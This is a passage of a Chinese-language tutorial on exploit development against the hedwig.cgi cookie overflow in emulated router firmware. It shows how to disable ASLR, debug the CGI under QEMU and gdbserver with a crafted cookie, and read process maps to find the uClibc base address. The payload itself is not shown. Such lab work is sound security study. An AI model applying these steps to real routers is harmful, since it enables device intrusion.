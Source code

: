  

![](https://bbs.pediy.com/upload/attach/202107/913238_RZKK4ESNDP4J2JR.png)

 

2，接下来动态调试确定偏移但是在那之前需要关掉地址随机化，因为 qemu 的虚拟机内核开启了地址随机化，每次堆的地址都在变化，导致 libc 的基地址也不断在变，所以需要关闭地址随机化。

```
echo 0 > /proc/sys/kernel/randomize_va_space

```

3，在 qemu 仿真路由器系统中，和 gdb 进行动态调试

 

目的：验证地址偏移位置。

 

`qemu仿真路由器系统中`编写调试脚本：

```
#!/bin/bashexport CONTENT_LENGTH="100"export CONTENT_TYPE="application/x-www-form-urlencoded"export HTTP_COOKIE="`cat content`"    #content你自己构造的数据内容，原本是没有的按上面所述的方式去创建export REQUEST_METHOD="POST"export REQUEST_URI="/hedwig.cgi"echo "uid=1234"|./gdbserver.mipsel 192.168.x.x:9999 /htdocs/web/hedwig.cgi

```

记得在仿真路由器系统中启动：

 

`./debug.sh`

 

接下来启动 gdb 调试便可确定偏移。（这里 gdb 调试技能各位同学自己去实践操作吧，本人也在不断熟悉过程中，就不带各位一步一步跟了）

 

4，接下来是确定 libc 的基地址，需要先把环境变量配置好，不然 / htdocs/web/hedwig.cgi 很快就执行完，进程立马就结束了，就得不到 maps。

 

利用（注意根据会先 pid 规律，快速修改预测 pid 执行，否则 maps 地址数据不会出来）

```
/htdocs/web/hedwig.cgi & cat /proc/pid/maps

```

**a&b 先执行 a，在执行 b，无论 a 成功与否都会执行 b**。因为关闭了地址随机化，libc.so.0 的基地址就是 0x77f34000。这里的 libc.so.0 是指向 libuClibc-0.9.30.1.so。所以 libuClibc-0.9.30.1.so 基地址为 0x77f34000。

```
root@debian-mipsel:~/squashfs-root# export CONTENT_LENGTH="100"root@debian-mipsel:~/squashfs-root# export CONTENT_TYPE="application/x-www-form-urlencoded"root@debian-mipsel:~/squashfs-root# export HTTP_COOKIE="uid=1234"root@debian-mipsel:~/squashfs-root# export REQUEST_METHOD="POST"root@debian-mipsel:~/squashfs-root# export REQUEST_URI="/hedwig.cgi"root@debian-mipsel:~/squashfs-root# /htdocs/web/hedwig.cgi & cat /proc/pid/maps[10] 1052cat: /proc/pid/maps: No such file or directoryroot@debian-mipsel:~/squashfs-root# /htdocs/web/hedwig.cgi & cat /proc/pid/maps[11] 1054cat: /proc/pid/maps: No such file or directory[10]+  Stopped                 /htdocs/web/hedwig.cgiroot@debian-mipsel:~/squashfs-root# /htdocs/web/hedwig.cgi & cat /proc/1056/maps [12] 105600400000-0041c000 r-xp 00000000 08:01 32694      /htdocs/cgibin0042c000-0042d000 rw-p 0001c000 08:01 32694      /htdocs/cgibin0042d000-0042f000 rwxp 00000000 00:00 0          [heap]77f34000-77f92000 r-xp 00000000 08:01 547906     /lib/libc.so.077f92000-77fa1000 ---p 00000000 00:00 0 77fa1000-77fa2000 r--p 0005d000 08:01 547906     /lib/libc.so.077fa2000-77fa3000 rw-p 0005e000 08:01 547906     /lib/libc.so.077fa3000-77fa8000 rw-p 00000000 00:00 0 77fa8000-77fd1000 r-xp 00000000 08:01 546761     /lib/libgcc_s.so.177fd1000-77fe1000 ---p 00000000 00:00 0 77fe1000-77fe2000 rw-p 00029000 08:01 546761     /lib/libgcc_s.so.177fe2000-77fe7000 r-xp 00000000 08:01 547907     /lib/ld-uClibc.so.077ff5000-77ff6000 rw-p 00000000 00:00 0 77ff6000-77ff7000 r--p 00004000 08:01 547907     /lib/ld-uClibc.so.077ff7000-77ff8000 rw-p 00005000 08:01 547907     /lib/ld-uClibc.so.07ffd6000-7fff7000 rwxp 00000000 00:00 0          [stack]7fff7000-7fff8000 r-xp 00000000 00:00 0          [vdso][11]+  Stopped                 /htdocs/web/hedwig.cgi

```